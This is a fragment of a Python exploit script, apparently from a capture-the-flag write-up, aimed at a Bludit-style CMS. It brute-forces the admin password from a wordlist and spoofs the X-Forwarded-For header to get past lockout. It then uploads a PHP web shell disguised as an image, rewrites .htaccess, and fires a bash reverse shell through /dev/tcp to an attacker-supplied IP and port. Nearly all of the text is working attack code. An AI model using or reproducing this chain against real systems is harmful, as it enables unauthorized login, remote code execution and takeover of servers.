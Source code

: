 ```py
    print("[+] Let's start bruteforce, keep calm!! [+]")
    for line in file:
        # Get the csrf_token for each request
        getCSRFToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "X-FORWARDED-FOR": "%s" %line}
        data = {"tokenCSRF": "%s" %csrf_token, "username": "%s" %username, "password": "%s" %line, "save": ''}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
        else:
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s" %(username,line))
            global password
            password = ''
            print("[+] Valid CSRF to login: %s " %csrf_token)
            return csrf_token
        
def uploadPhpCmd(rhost):
    print("[+] Uploading the Webshell on %s [+]" %rhost)
    # Get the new csrf token to upload images
    url_get_csrf = 'http://' + rhost + '/admin/new-content'
    resp = r.get(url_get_csrf, proxies=proxies, cookies=r.cookies)
    csrf_token_up = re.findall('\nvar tokenCSRF = "([0-9a-f]{32,})";', resp.text)[0]
    print("[+] New CSRF Token GOT: %s [+]" %csrf_token_up)
    url_upload = 'http://' + rhost + '/admin/ajax/upload-images'
    form_data = {'images[]': ('0x4rt3mis.php', '<?php system($_REQUEST["cmd"]); ?>', 'image/png')}
    data = {'uuid': 'junk',
            'tokenCSRF': csrf_token_up}
    r.post(url_upload, data=data, cookies=r.cookies, files=form_data, proxies=proxies, allow_redirects=False)
    print("[+] Web shell uploaded!! [+]")
    print("[+] Let's write the .htaccess!! [+]")
    url_upload = 'http://' + rhost + '/admin/ajax/upload-images'
    form_data = {'images[]': ('.htaccess', 'RewriteEngine off', 'image/png')}
    data = {'uuid': 'junk',
        'tokenCSRF': csrf_token_up}
    r.post(url_upload, cookies=r.cookies, data=data, files=form_data, proxies=proxies, allow_redirects=False)
    print("[+] .htaccess done! [+]")
    
def getReverse(rhost,ip,lport):
    print("[+] Now give me the shell!!!! [+]")
    url_shell = 'http://' + rhost + '/bl-content/tmp/0x4rt3mis.php'
    print("[+] Enjoy your shell! [+]")
    r.get(url_shell, params={'cmd':f'bash -c "bash -i >& /dev/tcp/%s/%s 0>&1"' %(ip,lport)}, proxies=proxies)
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist for bruteforce', required=True)
    parser.add_argument('-li', '--localip', help='Local IP', required=True)
    parser.add_argument('-lp', '--lport', help='Local Port', required=True)
    args = parser.parse_args()
    
```